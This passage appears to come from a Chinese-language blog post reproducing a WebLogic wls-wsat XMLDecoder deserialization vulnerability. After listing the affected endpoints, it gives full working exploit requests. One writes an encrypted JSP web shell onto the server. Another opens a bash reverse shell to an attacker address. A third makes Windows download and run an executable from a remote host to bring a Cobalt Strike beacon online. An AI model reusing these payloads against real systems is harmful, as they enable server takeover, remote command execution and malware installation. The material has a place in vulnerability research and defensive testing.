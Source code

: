 进行该路径查看 web.xml;

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDmGEzVuEJeMU7XqvibY02QB49JRgibolmUESoSC8se6xTQGA1RoWtM9ZA/640?wx_fmt=png)image-20210809141314849![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDuL0N5pRvToqTuMSWnKezX6hBfxjfOh3r83foL4VNYdkTrwp5WeDuHw/640?wx_fmt=png)image-20210809141512699

总结下来就是下面这些 url 会受到影响；

```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

##### 漏洞复现

抓包，修改内容

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <java><java version="1.4.0" class="java.beans.XMLDecoder"> <object class="java.io.PrintWriter">  <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/zcc.jsp</string> <void method="println"><string> <![CDATA[<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%> ]]> </string> </void> <void method="close"/> </object></java></java> </work:WorkContext> </soapenv:Header> <soapenv:Body/></soapenv:Envelope>
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDwI4AxXic9D8cMwpxYcvBOs7D2CtH6jdhvkibT2CYurInRhn3Iic5XZdhw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDpyKFGNodbAqNNJ8RTA8bSnyic0W3sk6lJgQqfbaaDNQvQFmbHlFiar6Q/640?wx_fmt=png)image-20210809162737924![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDdOZbFsjNjMBVKphxucSuXbia1wnXWpy8JaaUG49ByVQeZ1esIm7U6oQ/640?wx_fmt=png)image-20210809162717485

实现 Linux 反弹 shell 的 poc：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1Host: x.x.x.x:7001Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type: text/xmlContent-Length: 637<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.4.0" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>bash -i >& /dev/tcp/x.x.x.x/4444 0>&1</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```

实现 win 上线 cs

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1Host: 192.168.10.154:7001Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type: text/xmlContent-Length: 704<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.4.0" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>powershell</string> </void> <void index="1"> <string>-Command</string> </void> <void index="2"> <string>(new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc.exe','zcc.exe');start-process zcc.exe</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```
